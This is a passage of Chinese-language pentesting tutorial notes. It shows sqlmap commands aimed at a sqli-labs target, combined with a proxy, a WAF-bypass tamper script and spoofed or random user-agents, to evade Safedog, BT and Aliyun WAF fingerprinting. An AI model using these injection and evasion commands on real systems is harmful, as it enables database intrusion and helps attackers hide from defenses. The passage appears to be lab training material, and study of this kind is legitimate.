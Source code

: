 

```python
python sqlmap.py -u "http://test.xiaodi8.com/sqlilabs/Less-2/?id=1" --proxy="http:tps123.kdlapi.com:15818" --tamper="waf-dog.py"
```

![](image49/SQL-1.png)

仅仅这样是不行，

因为使用的是sqlmap工具，user-agent中会有明显的sqlmap的标识，阿里云，以及bt，safedog都有指纹识别，会

![SQL-2](image49/SQL-2.PNG)

所以还要修改 user-agent

![](image49/SQL-3.png)



模仿用户

使用自己的user-agent

```python
python sqlmap.py -u "http://test.xiaodi8.com/sqlilabs/Less-2/?id=1" --proxy="http:tps123.kdlapi.com:15818" --tamper="waf-dog.py" --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0"
```

也可以使用sqlmap的代理随机设置

--random-agent

```
python sqlmap.py -u "http://test.xiaodi8.com/sqlilabs/Less-2/?id=1" --proxy="http:tps123.kdlapi.com:15818" --tamper="waf-dog.py" --random-agent
```
